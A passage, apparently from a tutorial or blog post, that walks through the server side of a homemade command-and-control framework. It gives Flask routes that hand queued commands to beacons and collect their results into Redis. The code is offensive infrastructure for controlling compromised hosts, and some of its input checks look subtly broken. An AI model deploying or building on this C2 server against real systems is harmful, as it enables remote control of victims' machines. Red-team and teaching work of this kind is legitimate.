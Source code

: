 
Further requests from the beacon are sent to their dedicated UUID URL:

```python
@app.route('/<path:filename>', methods=['GET'])
def index(filename):
    if request.method == 'GET':
        bID = {request.headers['APPSESSIONID']}
        name = request.headers['RESPONSE']
        print(f'Host {bID} grabbed command')
        bID = str(bID)
        if set(bID).difference(string.ascii_letters + string.digits):
         # We're not going to bother with input sanitization here
         # If we receive special characters just drop it entirely
         pass
        elif set(name).difference(string.ascii_letters + string.digits):
         # We're not going to bother with input sanitization here
         # If we receive special characters just drop it entirely
         pass
        else:
         with open(f'{bID}.html') as f:
             content = f.readlines()
         for line in content:
             cmd = line
         conn.hset('beacons', f'{bID}', f'{cmd}') # Add the beacon ID and command to the redis DB
         date = datetime.datetime.now()
         conn.hset('beacons', f'{date}', f'{bID} + {cmd}') # Create cmd history
         conn.hset('beacons', f'{name}', f'{bID}')
         return send_from_directory('.', filename)
    return jsonify(request.data)
```
The beacon sends a GET for its specific page and again we are just dropping requests with special characters. Once it finds
the page, we read the command out of it and respond back with what should be executed, also adding a command history to a Redis database.

Finally, to get the results of the command:

```python
@app.route("/schema", methods=['POST'])
def results():
    if request.method == 'POST':
        bID = {request.headers['APPSESSIONID']}
        bID = str(bID)
        if set(bID).difference(string.ascii_letters + string.digits):
         # We're not going to bother with input sanitization here
         # If we receive special characters just drop it entirely
         pass
        else:
         total = f'Result: {request.data} from beacon: {bID}'
         response = request.data
         response = str(response)
         response = response.strip()
         print(response)
         conn.hset("beacons", bID, total)
         return 'HELO'
```
